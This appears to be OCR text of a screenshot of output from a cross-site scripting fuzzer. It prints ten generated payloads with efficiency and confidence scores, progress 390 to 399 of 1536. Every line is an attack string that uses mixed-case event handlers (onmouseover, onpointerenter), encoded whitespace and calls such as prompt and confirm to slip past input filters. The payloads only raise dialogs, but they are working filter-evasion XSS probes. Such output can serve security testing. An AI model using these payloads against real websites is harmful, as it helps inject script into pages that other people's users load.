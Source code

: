 ------------------------------------------------------------
 Payload: <detAIls%0dOnPoiNteReNtEr%0a=%0a(prompt)``%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 390/1536
 
------------------------------------------------------------
 Payload: <a%09OnMOuseOVEr%0a=%0aconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 391/1536
 
 Progress: 392/1536
 
------------------------------------------------------------
 Payload: <D3v/+/ONMouseOVeR%0a=%0aa=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 393/1536
 
------------------------------------------------------------
 Payload: <dETAiLS%09oNPOinterEnTer%0d=%0d[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 394/1536
 
------------------------------------------------------------
 Payload: <dETAILS%0doNpoiNTEReNtEr+=+[8].find(confirm)// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 395/1536
 
------------------------------------------------------------
 Payload: <d3V/+/oNMOUSEoveR%0a=%0a(prompt)``%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 396/1536
 
------------------------------------------------------------
 Payload: <A%09ONmOusEovER%0a=%0aa=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 397/1536
 
------------------------------------------------------------
 Payload: <HTMl%0aONpoINTERenTEr%09=%09confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 398/1536
 
------------------------------------------------------------
 Payload: <A%09ONpOINterENTEr%09=%09[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 399/1536
 
